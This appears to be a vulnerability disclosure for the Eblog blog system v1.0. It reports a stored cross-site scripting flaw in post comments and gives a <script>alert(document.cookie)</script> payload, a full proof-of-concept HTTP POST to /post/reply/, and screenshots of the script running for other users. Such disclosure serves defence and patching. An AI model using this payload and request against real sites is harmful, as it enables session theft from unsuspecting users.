target:https://github.com/MarkerHub/eblog   version: v1.0
A vulnerability was found in Eblog Blog System . The manipulation of the argument description with the input <script>alert(document.cookie)</script> leads to cross site scripting.Can conduct remote attacks on other users.  
Log in as a test007 user and leave a comment in the comments section of the post using the malicious code we have prepared.  
payload:<script>alert(document.cookie)</script>  
<img width="415" alt="image" src="https://github.com/biantaibao/eblog_xss/assets/131763503/602cc7f2-0b15-48db-aea1-e562231e6b9a">  
POC:  
POST /post/reply/ HTTP/1.1  
Host: localhost:8080  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 63  
Origin: http://localhost:8080  
Connection: close  
Referer: http://localhost:8080/post/2  
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964720; JSESSIONID=619AE47A2A22C9A7E23A64C324D778E1; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704964720  

content=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&jid=2  


When other users log in and click on the post, malicious code will be triggered, taking MarkerHub users as an example.  
<img width="415" alt="image" src="https://github.com/biantaibao/eblog_xss/assets/131763503/1d91f4b6-a3f5-4dc2-9efe-e51107ff0bdc">

